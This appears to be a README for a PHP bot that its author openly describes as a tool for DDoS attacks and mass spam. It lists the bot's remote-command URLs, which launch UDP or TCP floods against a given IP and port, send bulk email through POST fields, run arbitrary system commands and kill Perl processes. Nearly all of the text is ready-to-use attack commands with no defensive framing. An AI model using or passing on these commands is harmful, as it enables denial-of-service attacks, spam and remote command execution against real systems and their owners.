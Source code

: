 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
     command = ddos.
     flag = Attack method: udp, tcp.
     data = IP:PORT.
     
     phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
     
 - Spam:

        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

      POST data:
        maillist=...&subject=...&from=...&message=...
       
        phpBot.php?hash=admin&command=spam&flag=1&data=null
     
 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

